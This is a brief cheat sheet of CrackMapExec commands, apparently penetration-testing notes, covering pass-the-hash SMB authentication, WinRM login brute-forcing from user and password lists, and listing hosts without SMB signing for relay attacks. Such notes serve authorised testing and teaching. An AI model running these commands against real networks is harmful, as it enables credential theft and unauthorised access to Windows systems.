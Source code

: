 ### source
https://github.com/byt3bl33d3r/CrackMapExec  

### authenticate via smb using hash
```
crackmapexec smb <rhost> -u <user> -H <hash>
```

### bruteforce winrm login
```
crackmapexec winrm <rhost> -u <userFile> -p <passwordFile>
```

### list of servers with SMB signing flag
```
crackmapexec smb <rhost>/24 --gen-relay-list
```
